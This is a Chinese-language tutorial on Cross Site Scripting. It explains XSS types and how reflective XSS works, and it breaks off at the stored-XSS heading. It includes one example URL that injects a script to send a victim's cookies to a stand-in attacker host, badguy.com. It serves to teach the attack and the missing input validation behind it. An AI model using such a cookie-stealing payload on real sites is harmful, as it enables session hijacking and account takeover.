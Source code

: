 # XSS Cross Site Scripting

## Cross Site Scripting 的原理

---

根據根據維基百科的定義，##Cross Site Scripting## 是一種網站應用程序的安全漏洞攻擊，是代碼注入的一種。它允許惡意用戶將代碼注入到網頁上，其他用戶在觀看網頁時就會受到影響。這類攻擊通常包含了HTML以及用戶端腳本語言。

## XSS 攻擊概念
---

駭客輸入惡意的程式碼在網站上，若網站沒有驗證使用者的輸入，直接輸出在網頁上，惡意的程式碼就會被執行，就像是在網頁埋了一顆地雷，只要使用者點入原本要觀看的網頁就會遭到攻擊。

* Cross Site Scripting 主要分為:
  * Reflective XSS
  * Persistent XSS
  * Dom-based XSS

1. Reflective XSS攻擊原理

* 就是將使用者輸入的內容**不經驗證直接反射**呈現在頁面中。

![Reflective](./圖片/1Reflective&#32;XSS_1.png)

>例如:正常的使用者輸入了 shoes，那麼預期網頁上就會顯示 shoes。

* 正常使用者的輸入顯示

![Reflective2](./圖片/Reflective&#32;XSS_2.png)

* 駭客輸入的惡意程式碼

```
http://www.shop.com/search?query=<script>document.location='http://badguy.com/cookiestealer.php?c='+document.cookie;</script>
```

![Reflective3](./圖片/Reflective&#32;XSS_3.png)

只要誤點了上面網址，使用者Cookie 就會被送到駭客的網站 badguy.com，駭客取得 Cookie 之後，就可以登入你在 shop.com 的帳號了。

因為此攻擊為被輸入的當下馬上執行，類似**反射**即被稱為 Reflective XSS。

>示意圖

![Reflective3](./圖片/ReflectiveXSS4.png)

---

## Persistent/Stored XSS攻擊原理